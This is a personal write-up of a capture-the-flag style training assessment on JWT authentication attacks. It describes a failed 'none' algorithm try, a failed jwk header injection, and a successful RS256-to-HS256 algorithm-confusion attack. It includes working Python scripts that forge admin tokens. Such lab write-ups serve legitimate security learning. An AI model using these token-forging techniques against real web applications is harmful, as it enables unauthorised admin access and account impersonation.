







# Skills Assessment — Attacking Authentication Mechanisms (full write-up)

---

This is the skills assessment for the **Attacking Authentication Mechanisms** module. I was a bit disappointed that it was not on the SAML or OAuth2 attacks I just saw, but only on the JWTs part.

## Recon

Plain website with few tabs, nothing really interesting in sight.



I can login through the portal with the credentials they give, and examine the session after being logged in:



There are other new panels, such as my profile and an admin panel where my user is denied.

After analyzing the session mechanism via Burp, I can see that it is handled by a JWT session.



Decoding the JWT I can see:



From that JWT, I can see it contains a `jwk` claim, and that the token carries the user identity, so I can look back in the course for what kind of attack I can potentially do to impersonate the admin user.

## Attempt 1 — `none` algorithm

I first try to send a JWT without a signature, by specifying the `none` algorithm:



No results — I get redirected to an unauthenticated session.

## Attempt 2 — `jwk` header injection

As the token contains the `jwk`, I skip the other "classic" attacks and go directly to the public-key verification. `jwk` contains information about the public key used for signature verification for asymmetric JWTs — so I test whether the website is misconfigured to accept an arbitrary attacker-supplied public key.

I forge my own key pair, then use a script to sign the JWT with my public key embedded in the `jwk` header, and manipulate the payload to obtain an admin JWT.

`exploit.py`:

```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt

# JWT Payload
jwt_payload = {"user": "admin", "accountType": "user", "id": 1, "iat": 1783455465}

# convert PEM to JWK
with open('exploit_public.pem', 'rb') as f:
    public_key_pem = f.read()
public_key = serialization.load_pem_public_key(public_key_pem, backend=default_backend())
jwk_key = jwk.construct(public_key, algorithm='RS256')
jwk_dict = jwk_key.to_dict()

# forge JWT
with open('exploit_private.pem', 'rb') as f:
    private_key_pem = f.read()
token = jwt.encode(jwt_payload, private_key_pem, algorithm='RS256', headers={'jwk': jwk_dict})

print(token)
```

```console
$ python3 exploit.py
eyJhbGciOiJSUzI1NiIsImp3ayI6<REDACTED_JWK_HEADER>.eyJ1c2VyIjoiYWRtaW4i<REDACTED_PAYLOAD>.<REDACTED_SIGNATURE>
```

Same, no success, the website does not accept any arbitrary jwk :



## Attempt 3 — Algorithm confusion (RS256 → HS256)

I decided to try to attack another misconfiguration seen in the course : the algorithm confusion attack: check whether the website accepts a symmetric-algorithm signature, signed with the public key that is already provided in the JWT's `jwk` — so there's no need to recover it from multiple JWTs.

I first convert the JWK to PEM format:

```python
from jwcrypto import jwk

jwk_dict = {
    "kty": "RSA",
    "e": "AQAB",
    "n": "<REDACTED_MODULUS>"
}

key = jwk.JWK(**jwk_dict)
pem = key.export_to_pem()
with open("public.pem", "wb") as f:
    f.write(pem)

print(pem.decode())
```

```text
-----BEGIN PUBLIC KEY-----
<REDACTED_PUBLIC_KEY>
-----END PUBLIC KEY-----
```

Now that I have the public key, I can forge the symmetric JWT:

```python
import hmac, hashlib, base64, json

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

# The public key — must match the server's key file exactly as it will the one to decrypt on the server side. 
public_key = b"""-----BEGIN PUBLIC KEY-----
<REDACTED_PUBLIC_KEY>
-----END PUBLIC KEY-----
"""

header  = {"alg": "HS256", "typ": "JWT"}
# payload = {"user": "htb-stdnt", "accountType": "user", "id": 1234, "iat": 1783369515} # verify symmetric alg is accepted
# payload = {"user": "admin", "accountType": "user", "id": 1, "iat": 1783462619}        # accountType=user did NOT work
payload = {"user": "admin", "accountType": "admin", "id": 1, "iat": 1783462619}

# compact JSON, no spaces — must match how the server serializes
signing_input = (
    b64url(json.dumps(header,  separators=(',', ':')).encode()) + "." +
    b64url(json.dumps(payload, separators=(',', ':')).encode())
)

sig = hmac.new(public_key, signing_input.encode(), hashlib.sha256).digest()
token = signing_input + "." + b64url(sig)

print(token)
# eyJhbGciOiJIUzI1NiIs<REDACTED_HEADER>.eyJ1c2VyIjoiYWRtaW4i<REDACTED_PAYLOAD>.<REDACTED_SIGNATURE>
```

## Result

I first verified that the web app was accepting the JWT by querying `/profile`; when modifying the `user` value, I could see it was reflected/accepted by the server (receiving a 200OK and Welcome <name> of the  user I put in the jwt. 

Even if I could see the admin name being parsed and sent back by the server, the admin section was not letting me reach it. I had to also play with other parameters from the JWTs aka `accountType` and `id`, and then I was able to reach the admin section.


